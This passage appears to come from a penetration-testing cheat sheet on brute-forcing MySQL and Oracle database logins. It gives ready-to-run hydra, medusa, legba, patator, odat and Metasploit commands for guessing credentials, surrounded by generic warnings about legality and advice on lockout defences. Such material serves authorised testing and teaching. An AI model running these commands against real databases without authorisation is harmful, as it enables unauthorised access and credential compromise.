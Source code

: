 To mitigate the risk of a brute force attack, it is recommended to implement strong password policies, such as enforcing complex passwords and implementing account lockout policies after a certain number of failed login attempts.

Remember, brute forcing a MySQL database without proper authorization is illegal and unethical. Always ensure you have the necessary permissions and legal authorization before attempting any hacking activities.
```bash
# hydra
hydra -L usernames.txt -P pass.txt <IP> mysql

# msfconsole
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false

# medusa
medusa -h <IP/Host> -u <username> -P <password_list> <-f | to stop medusa on first success attempt> -t <threads> -M mysql

#Legba
legba mysql --username root --password wordlists/passwords.txt --target localhost:3306
```
### OracleSQL

OracleSQL is a powerful relational database management system that is commonly used in enterprise environments. It provides a wide range of features and functionalities for managing and manipulating data.

#### Brute-Force Attack

A brute-force attack is a common method used by hackers to gain unauthorized access to OracleSQL databases. This attack involves systematically trying all possible combinations of usernames and passwords until the correct credentials are found.

#### Brute-Force Tools

There are several tools available that can automate the brute-force attack process for OracleSQL databases. These tools typically use a list of common usernames and passwords, as well as various techniques to speed up the attack.

#### Prevention Techniques

To protect against brute-force attacks on OracleSQL databases, it is important to implement strong security measures. This includes using complex and unique passwords, enforcing account lockouts after a certain number of failed login attempts, and regularly monitoring and reviewing access logs for any suspicious activity.

#### Conclusion

Brute-force attacks can pose a significant threat to the security of OracleSQL databases. By implementing proper security measures and regularly updating passwords, organizations can greatly reduce the risk of unauthorized access to their databases.
```bash
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
```